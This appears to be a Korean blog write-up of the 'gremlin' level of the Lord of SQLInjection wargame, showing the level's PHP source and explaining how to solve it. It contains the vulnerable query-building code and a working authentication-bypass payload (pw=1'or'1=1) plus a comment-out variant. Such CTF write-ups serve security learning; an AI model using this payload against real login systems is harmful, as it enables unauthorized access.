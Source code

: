 ```yaml
---
layout: post
title: ! "[LOS] gremlin"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - gremlin
  - write-up
---
```


![](/assets/posts/los/gremlin.png)

`query : select id from prob_gremlin where id='' and pw=''`

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
첫번째 문제 gremlin은 이런식으로 query문이 떠있고 url로 id와 pw를 집어넣으면 된다.
id에는 아무값이나 넣어도 되지만 pw는 참이 되어야 하므로
or문을 써야할 것 같다.
쿼리에서 id와 pw를 감싸는 ' 가 있기 때문에 그것까지 고려를 해서 값을 넘겨야 한다.

`?id=(아무값)&pw=1'or'1=1`

이런식으로 써줘야

`query : select id from prob_gremlin where id='mmjlee314' and pw='1'or'1=1'`

이렇게 쿼리문이 완성된다.
1 또는 1이 되므로 pw는 참이 된다.

또 다른 방법으로는 id 부분을 id='1'or'1=1' 이렇게 해주고 pw 부분을 주석처리 하는 것도 있다.
![](/assets/posts/los/gremlin_clear.png)

그렘린 클리어!
